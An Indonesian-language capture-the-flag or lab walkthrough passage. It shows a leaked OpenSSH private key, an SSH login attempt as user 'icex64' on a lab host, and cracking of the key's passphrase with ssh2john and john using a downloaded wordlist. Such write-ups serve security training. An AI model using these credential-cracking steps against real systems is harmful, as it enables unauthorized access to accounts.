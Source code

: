 ```pem
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  
iUJ66WmRUN9EoVlkeCzQJwivI=  
-----END OPENSSH PRIVATE KEY-----
```

Hasil tersebut kita simpan menjadi sebuah file. Disini saya menyimpan file tersbut menjadi "cert.key". Sekarang kita akan mencoba login SSH menggunakan "cert.key"

>Note: kita mendapatkan username dari "http://192.168.43.214/~secret/" 
```sh
chmod 600 cert.key
ssh -i cert.key icex64@192.168.43.214
```

```
Enter passphrase for key 'cert.key':
```

Hmmm... kita disuruh untuk memasukkan password dari "cert.key". Karena kita tidak tahu password "cert.key", sekarang kita akan mebrute force "cert.key" untuk mendapatkan passwordnya.

>Note: 
>- "ssh2john" bisa didapatkan disini "https://raw.githubusercontent.com/openwall/john/bleeding-jumbo/run/ssh2john.py"
>- Wordlistnya bisa didapat di "https://raw.githubusercontent.com/drtychai/wordlists/master/fasttrack.txt"
```sh
ssh2john cert.key > hash.txt
john --wordlist=/home/wowon/Documents/File/SecLists/Passwords/fasttrack.txt hash.txt
```
